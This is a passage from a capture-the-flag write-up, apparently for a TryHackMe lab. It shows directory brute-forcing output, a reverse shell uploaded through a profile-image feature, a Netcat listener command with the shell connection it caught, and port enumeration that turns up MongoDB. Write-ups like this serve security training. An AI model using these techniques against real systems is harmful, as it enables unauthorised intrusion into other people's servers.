 ```
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 267ms]
phpMyAdmin              [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 190ms]
v2                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 340ms]
:: Progress: [20469/20469] :: Job [1/1] :: 201 req/sec :: Duration: [0:02:10] :: Errors: 0 ::
```

Both `assets` and `phpMyAdmin` were inaccessible (403 error).

Back to the profile photo, I uploaded the shell, but I didn't know how to access it. With some help, I searched in the source code and learned about the `profileimages` subdirectory under `v2`.

<img src=https://github.com/user-attachments/assets/3e2f83d1-5b6c-4480-b68e-c329367b9ef2>

I accessed the reverse shell I uploaded, and I opened a Netcat listener on my machine:

<img src=https://github.com/user-attachments/assets/5867c30d-f1d1-4c6e-9d3f-0312fc97167c>

```
┌──(kali㉿kali)-[~/Desktop/THM/Road]
└─$ nc -nlvp 4444                                  
listening on [any] 4444 ...
connect to [10.17.94.32] from (UNKNOWN) [10.10.135.189] 54826
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 15:34:34 up 41 min,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

$ ls -l 
total 4
-rw-r--r-- 1 webdeveloper webdeveloper 33 May 25  2021 user.txt
```

As `www-data`, I have read permission for the user.txt file, so there is no need for privilege escalation to read this file.

I must escalate to the `webdeveloper` id to gain the root privileges. Again, with some help, I learned that MongoDB was running on port 27017.

```
$ ss -tl
State   Recv-Q  Send-Q     Local Address:Port       Peer Address:Port  Process  
LISTEN  0       4096       127.0.0.53%lo:domain          0.0.0.0:*              
LISTEN  0       128              0.0.0.0:ssh             0.0.0.0:*              
LISTEN  0       70             127.0.0.1:33060           0.0.0.0:*              
LISTEN  0       511            127.0.0.1:9000            0.0.0.0:*              
LISTEN  0       4096           127.0.0.1:27017           0.0.0.0:*              
LISTEN  0       151            127.0.0.1:mysql           0.0.0.0:*              
LISTEN  0       511              0.0.0.0:http            0.0.0.0:*              
LISTEN  0       128                 [::]:ssh                [::]:*       
```
